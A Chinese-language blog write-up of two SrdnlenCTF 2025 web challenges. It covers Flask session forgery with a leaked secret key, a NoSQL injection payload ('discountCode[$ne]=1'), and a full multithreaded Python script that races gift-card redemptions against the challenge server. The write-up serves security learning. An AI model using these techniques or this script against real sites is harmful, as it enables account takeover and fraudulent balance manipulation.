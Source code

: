 ```yaml
---
title: SrdnlenCTF 2025
subtitle:
date: 2025-01-23T22:34:19+08:00
slug: 4f8b201
draft: false
author: 
  name: M1ng2u
  link:
  email:
  avatar:
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CTF
categories:
  - CTF
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


# srdnlen

## web

### Ben 10

题目描述说 Ben 10 有好东西，但是注册账号后发现不让访问

附件中的 app.py 给出了 app.secret_key = 'your_secret_key'

把 jwt 用 flask-session-cookie-manager 解密，发现只有 username

![m63nh67z.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfd4f54791.png)

从 app.py 中可以看到注册用户时也一起注册了一个对应的 admin 用户

```py
@app.route('/register', methods=['GET', 'POST'])
def register():
    admin_username = f"admin^{username}^{secrets.token_hex(5)}"
    cursor.execute("INSERT INTO users (username, password, admin_username) VALUES (?, ?, ?)",
                           (admin_username, admin_password, None))
    conn.commit()
```

而 admin_username 在 /home 中显示

![m63nkpbe.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfdf3f35a2.png)

所以进行 session 伪造

![m63nntuw.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cfe85f3d47.png)

GET /image/ben10 ，拿到 flag

![m63nsvou.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678cff71b7ebf.png)

> srdnlen{b3n_l0v3s_br0k3n_4cc355_c0ntr0l_vulns}

### Focus. Speed. I am speed.

群里师傅说打 nosql + 竞争，那我就照着打了qwq

![m63oa7cc.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0299e048f.png)

应该要买第4个，50 points

![m63ocvz8.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0317070ee.png)

网页都访问一遍，发现在 GET /redeem?discountCode=xxx 有查询

翻一下代码，顺着找到：

routes.js

```javascript
const discount = await DiscountCodes.findOne({discountCode})
```

discountCodes.js

```javascript
const DiscountCodeSchema = new mongoose.Schema({
    discountCode: {
        type: String,
        default: null, // Optional field for discount codes
    },
    value: {
        type: Number,
        default: 10
    }
})

module.exports = mongoose.model('DiscountCodes', DiscountCodeSchema)
```

注一下试试看，确实可以

![m63pxcd8.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/19/678d0d6126433.png)

但是礼品卡说是一天只能兑换一次，找代码

routes.js

```javascript
// Check if the voucher has already been redeemed today
        const today = new Date();
        const lastRedemption = user.lastVoucherRedemption;

        if (lastRedemption) {
            const isSameDay = lastRedemption.getFullYear() === today.getFullYear() &&
                              lastRedemption.getMonth() === today.getMonth() &&
                              lastRedemption.getDate() === today.getDate();
            if (isSameDay) {
                return res.json({success: false, message: 'You have already redeemed your gift card today!' });
            }
        }

        // Apply the gift card value to the user's balance
        const { Balance } = await User.findById(req.user.userId).select('Balance');
        user.Balance = Balance + discount.value;
        // Introduce a slight delay to ensure proper logging of the transaction 
        // and prevent potential database write collisions in high-load scenarios.
        new Promise(resolve => setTimeout(resolve, delay * 1000));
        user.lastVoucherRedemption = today;
        await user.save();
```

在保存之前，setTimeout(delay * 1000 ms)，所以我们通过并发请求访问 balance 来制造竞争条件

一直 buy 第一辆🚗，然后重复兑换礼品卡

```py
import time
import requests
import threading
import json

url = "http://speed.challs.srdnlen.it:8082"

# 账号注册
url_register = f"{url}/register-user"
data_user = {"username": "mingzuxxxxxxxxxxxxxxx", "password": "123"}
try:
    response = requests.post(url_register, json=data_user)
    jwt = response.headers["Set-Cookie"].split(";")[0].split("=")[1]
    print(jwt)
except Exception as e:
    print(e)

# 竞争
url_store = f"{url}/store"
headers = {'Cookie': f'jwt={jwt}',}
data_buy = {"productId": 1}

def send_request():
    try:
        response = requests.post(url_store, headers=headers, json=data_buy)
        # print(f"Status Code: {response.status_code}, Response Text: {response.text}")
    except Exception as e:
        print(f"Request failed: {e}")

def send_requests():
    while True:
        send_request()

def race(thread_num):
    threads = []
    for _ in range(thread_num):
        thread = threading.Thread(target=send_requests)
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

# 偷点数
url_redeem = f"{url}/redeem?discountCode[$ne]=1"

def steal_points():
    while True:
        try:
            response = requests.get(url_redeem, headers=headers)
            # print(f"Status Code: {response.status_code}, Response Text: {response.text}")
            if json.loads(response.text)["success"]:
                print(f"Steal Points Successfully: {json.loads(response.text)["message"]}")
        except Exception as e:
            print(f"Request failed: {e}")

def steal_points_rapidly(thread_num):
    threads = []
    for _ in range(thread_num):
        thread = threading.Thread(target=steal_points)
        threads.append(thread)
        thread.start()

    for thread in threads:
        thread.join()

# steal_points()

# 执行
def execute():
    thread_race = threading.Thread(target=race, args=(100,))
    thread_steal = threading.Thread(target=steal_points_rapidly, args=(100,))

    thread_race.start()
    time.sleep(1)
    thread_steal.start()

execute()
```

![m63t610z.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/20/678d22a51cff7.png)

拿到 60 points ，买到辣

![m63t79zl.png](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/20/678d22df872ca.png)

> srdnlen{6peed_1s_My_0nly_Competition}
